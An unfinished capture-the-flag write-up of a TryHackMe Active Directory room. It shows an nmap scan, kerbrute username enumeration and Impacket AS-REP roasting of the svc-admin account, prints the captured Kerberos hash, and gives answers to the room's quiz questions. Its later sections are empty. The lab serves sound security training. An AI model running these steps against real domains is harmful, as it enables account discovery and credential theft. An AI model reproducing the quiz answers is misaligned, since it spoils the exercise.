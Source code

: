 # Attacktive Directory

- [Tools](#tools)
- [Deploy The Machine](#deploy-the-machine)
- [Setup](#setup)
- [Welcome to Attacktive Directory](#welcome-to-attacktive-directory)
- [Enumerating Users via Kerberos](#enumerating-users-via-kerberos)
- [Abusing Kerberos](#abusing-kerberos)
- [Back to the Basics](#back-to-the-basics)
- [Elevating Privileges within the Domain](#elevating-privileges-within-the-domain)
- [Flag Submission Panel](#flag-submission-panel)

Room Link: https://tryhackme.com/r/room/attacktivedirectory

## Tools
1. NMap
2. [kerbrute](https://github.com/ropnop/kerbrute/releases)
3. 

## Deploy The Machine
1. Goto Access and get ovpn file to connect https://tryhackme.com/access Or, Start attackbox for testing.
2. `Start Machine` and get Target IP from "Target Machine Information".
3. Now, Click on all four Completes.

## Setup
1. Follow Instructions in this section, to `Install Impacket, Bloodhound and Neo4j`.
2. After installing click on `Complete`.

## Welcome to Attacktive Directory
1. Running nmap scan shows some open ports, command used `nmap -sV -sC 10.10.94.138`.
   ```bash
   nmap -sV -sC 10.10.94.138
   Starting Nmap 7.94 ( https://nmap.org ) at 2024-08-24 12:12 IST
   Nmap scan report for 10.10.94.138
   Host is up (0.17s latency).
   Not shown: 987 closed tcp ports (reset)
   PORT     STATE SERVICE       VERSION
   53/tcp   open  domain        Simple DNS Plus
   80/tcp   open  http          Microsoft IIS httpd 10.0
   | http-methods: 
   |_  Potentially risky methods: TRACE
   |_http-server-header: Microsoft-IIS/10.0
   |_http-title: IIS Windows Server
   88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-24 06:49:23Z)
   135/tcp  open  msrpc         Microsoft Windows RPC
   139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
   389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
   445/tcp  open  microsoft-ds?
   464/tcp  open  kpasswd5?
   593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
   636/tcp  open  tcpwrapped
   3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
   3269/tcp open  tcpwrapped
   3389/tcp open  ms-wbt-server Microsoft Terminal Services
   |_ssl-date: 2024-08-24T06:49:42+00:00; 0s from scanner time.
   | rdp-ntlm-info: 
   |   Target_Name: THM-AD
   |   NetBIOS_Domain_Name: THM-AD
   |   NetBIOS_Computer_Name: ATTACKTIVEDIREC
   |   DNS_Domain_Name: spookysec.local
   |   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
   |   Product_Version: 10.0.17763
   |_  System_Time: 2024-08-24T06:49:33+00:00
   | ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
   | Not valid before: 2024-08-23T06:06:09
   |_Not valid after:  2025-02-22T06:06:09
   Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
   
   Host script results:
   | smb2-security-mode: 
   |   3:1:1: 
   |_    Message signing enabled and required
   | smb2-time: 
   |   date: 2024-08-24T06:49:37
   |_  start_date: N/A
   
   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 449.40 seconds
   ```
2. Question `What tool will allow us to enumerate port 139/445?` Answer `enum4linux`. `enum4linux` can be used to enumerate `139`/`445` ports.
3. Question `What is the NetBIOS-Domain Name of the machine?` Answer `THM-AD`
4. Question `What invalid TLD do people commonly use for their Active Directory Domain?` Answer `.local`

## Enumerating Users via Kerberos
1. Now, we will bruteforce Kerberos with [kerbrute](https://github.com/ropnop/kerbrute/releases) using given `userlist.txt` and `passwordlist.txt`. So, at first we need to download those wordlists and install `kerbrute`.
2. Assign `spookysec.local` to machine ip is in `host` file. We can simply edit `/etc/hosts` file in Linux to assign domain to the ip.
3. We can use this command `kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt` to enumerate users. We got some valid usernames after scanning.
   ```bash
   james@spookysec.local
   svc-admin@spookysec.local
   robin@spookysec.local
   darkstar@spookysec.local
   administrator@spookysec.local
   backup@spookysec.local
   paradox@spookysec.local
   ```
4. Question `What command within Kerbrute will allow us to enumerate valid usernames?` Answer `userenum`.
5. Question `What notable account is discovered? (These should jump out at you)` Answer `svc-admin`. `svc-admin` typically suggests a `service account` (`svc`) with `administrative privileges` (`admin`).
6. Question `What is the other notable account is discovered? (These should jump out at you)` Answer `backup`.

## Abusing Kerberos
1. Read this section, then proceed.
2. We can use `GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass` or `GetNPUsers.py -dc-ip spookysec.local spookysec.local/ -no-pass -usersfile user.txt` after saving all users to `user.txt` to capture `TGT Token` of `svc-admin` using ASREPRoasting method.
   ```bash
   GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass
   Impacket v0.12.0.dev1+20240807.21946.829239e - Copyright 2023 Fortra
   
   [*] Getting TGT for svc-admin
   $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:92f01444cd97361751ec4fb5b5ea985a$04b60fa94a84739e7db13609241d16247154e8d1f952c26a0c5063e53d08c9a4365690982460f7872d8ade23113cd4df929c85d5404f4380fdcaa5af2ee22d7988d7ee428e535be1b2dcff88bf574d418ca88c3b435cea77b6ea322b510bcf59ac1fba479d54db52104c3bec497cf1b81ddcd384bbb5d115ba2c380f0520705c7b63c88f548f17a9c6c8c1b746175b896b29555a45002ad5195a90d42c45193e42915a1107ed46a6b79da94b835f5e7bd8858c0bb7f07fecab80f7097c769da284ea270697500ea73ea223d93684e8d087248610cf7809d076d5e97564e9729ec5aa04656eaec9f3f5a92ecfaa8524346e93
   ```
3. Question `We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?` Answer `svc-admin`
4. Question `Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)` Answer ``
5. 
## Back to the Basics

## Elevating Privileges within the Domain

## Flag Submission Panel

Author: Zishan Ahamed Thandar
